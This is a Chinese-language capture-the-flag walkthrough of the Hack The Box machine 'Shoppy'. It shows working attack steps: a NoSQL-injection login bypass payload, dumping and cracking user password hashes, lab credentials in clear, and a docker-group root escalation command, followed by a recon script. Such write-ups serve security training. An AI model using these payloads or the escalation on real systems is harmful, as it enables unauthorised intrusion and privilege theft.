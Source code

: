 ```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


## 扫描

### 端口

```bash
nmap -v -n -Pn -sCV -oN Shoppy.nmap 10.10.11.180
```
只扫出22和80端口。


## 漏洞分析

### 80端口

将靶机域名加入hosts后访问。  
虽然感觉HTB的靶机域名应该都挺固定的，姑且写了个命令行，收集域名后加入hosts文件，看看以后能否通用：  
```bash
HTB_IP='10.10.11.180'; cat -e /etc/hosts && sudo sh -c "echo \"${HTB_IP}    $(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | sed 's/\r//g')\"  >> /etc/hosts"; cat -e /etc/hosts
``` 

- 无robots  
- 网页源码无发现  
- 网站无特别功能

本来打算枚举一下目录，不过惯例试了一下 `/login` 可以。  
在登陆界面尝试了几个SQLi绕过未果。SQLi只会一点基础的……卡住  

*搜了一波WP原来这里是 [NoSQL](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo) ……*

`admin'||'1==1` 成功登入。

admin界面有搜索框，输入 `admin` 搜索有回显admin的密码。看上去感觉是MD5加密。  
在搜索框输入同样的 `NoSQLi`，成功回显所有用户（admin和josh）的账号密码。

放进[MD5解码网站](./../../tool-links.md#_2)试试。`josh` 用户可成功解码。

但是至此似乎没什么其他攻击路径了。

#### 子域枚举

由于是靶机所以只扫虚拟主机的子域

```bash
gobuster vhost -u shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain
```

扫出一个：`Found: mattermost.shoppy.htb Status: 200 [Size: 3122]`，将其也加入hosts。  
*最开始没加 `--append-domain` 啥都没扫出来。所以最好正式开扫之前加上 `-v` 小扫一下看看，否则都不知道自己扫的是啥容易错过突破口。*

#### 从子域突破

但是访问后是空白页面，试着刷新几次发现似乎有一闪而过的登陆界面。  
开burp拦截使其停在登录界面，输入刚破解的 `josh` 的账号密码，成功登入。


## foothold

是一个聊天工具的样子。有个带锁的频道十分引人注意。看了眼内容是让我们（josh）部署一个机器。还有账号密码：  

	username: jaeger
	password: Sh0ppyBest@pp!

SSH登陆成功。


## get user flag

```bash
jaeger@shoppy:~$ cat user.txt
```


## 横向移动

首先看看 `sudo -l`：  
```bash
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)


jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager


jaeger@shoppy:~$ ls -l /home/deploy/
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```

deploy家目录有creds.txt但是无法读取。  

看看sudo的那个命令是啥：  
`strings /home/deploy/password-manager`，注意到里面有段文字：`cat /home/deploy/creds.txt`  
似乎这个脚本可以读取creds.txt。尝试一下执行：  
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

但是不知道密码？？josh的那个不行，需要什么master password。迷茫……

*看了眼WP，竟然是用 `cat password-manager` 能发现有用的信息，服了。一直惯性觉得cat二进制文件没用每次都直接strings了……*

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy ./password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

SSH成功登陆 `deploy` 用户。
```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```


## 提权

`deploy` 用户的这个 `998(docker)` 是什么情况，值得探究一下。  
通过[gtfobins](https://gtfobins.github.io/gtfobins/docker/)发现可以利用。运行下面命令后成功得到root shell：  
```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```


## get root flag

```bash
# cd
# ls
root.txt
# cat root.txt
```


---

## 后记

原来是NoSQL...

说是多了个横向移动吧，其实和之前靶机比，从foothold开始获得的用户数量又没差。  
大概是因为这次是web打点时用了一个账户，后来用的又是两个普通用户的账户而没有应用账户吧。

以及以前一直觉得既然SSH能成功登陆，就已经知道自己登陆的是什么用户，那么 `id` 命令没啥意义。  
这次随手一打竟然能发现deploy用户属于docker组，从而发现突破口，也属实是运气了……


最后，  
联系[这个思路](summary.md#web_info_gathering)，感觉信息搜集可以弄一个简易脚本。以后试试直接用这个：

### HTB_easy_firstScaning
 
```bash
#!/usr/bin/bash
# -*- coding:utf-8 -*-

## This script is requires root privilege for running.
set -eu

HTB_IP=${1}
echo "[info] Starting scan..."

# --max-retries=0 maybe ok, but sometimes missing some ports. Default is 10.
ports=$(nmap -n -Pn -sS -p 1-10000 ${HTB_IP} --min-rate=5000 --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
echo "[info] Opening port: ${ports}"

# Since nmap scanning is too time-consuming, let it run in background.
nohup nmap -v -n -Pn -sV -O -p ${ports} --script=vuln ${HTB_IP} > "${HTB_IP}.nmap" 2>&1 &

if [[ ${ports} =~ '80' ]];then
  HTB_DOMAIN=$(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | tr -d '/\r')
  echo "[info] domain: ${HTB_DOMAIN}"

  if [[ ${HTB_DOMAIN} != '' ]];then
    # for backup
    cat -e /etc/hosts
    echo "-------- Backed up hosts --------"
    
    echo "${HTB_IP}    ${HTB_DOMAIN}" >> /etc/hosts
    
    cat -e /etc/hosts
    echo "-------- Modified hosts --------"

    echo "[info] Scanning subdomain..."
    gobuster vhost -u ${HTB_DOMAIN} -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain -o "subdomains_${HTB_DOMAIN}.txt"
    echo "[info] End of subdomain scan..."
  fi
fi

ps -ef | grep 'nmap -v -n -Pn'
echo "[info] Please check nmap status with: ps -ef | grep 'nmap -v -n -Pn'"
```